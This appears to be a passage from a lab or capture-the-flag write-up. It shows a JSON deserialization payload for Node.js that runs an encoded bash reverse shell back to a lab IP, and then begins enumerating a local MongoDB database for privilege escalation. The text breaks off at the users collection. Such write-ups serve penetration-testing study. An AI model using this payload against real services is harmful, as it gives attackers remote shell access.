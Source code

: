 # Admin user shell

Following payload after urlencoding initiates reverse shell:

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process')
.exec('echo ZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTIvODAwMCA8JjEK|base64 -d|bash',
function(error, stdout, stderr){console.log(stdout)});}()"}
```

The base64 part is simple bash reverse shell from gtfobins.

# Root shell

After logging in as admin user, we notice some things.
First, sudo -l prompts for password, which we don't have right now.
Second, there is mongod running on this system.

```bash
> ps auxww

...
mongodb  0:44 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
...
```

We connect to the local mongo database:

```bash
> mongo
```

To list all databases, we use:

```sh
> show dbs

admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
```

Since all of them except blog are default ones, we will be mainly interested
in blog:

```sh
> use blog
switched to db blog

> show collections
articles
users
```

Users collection seems interesting.

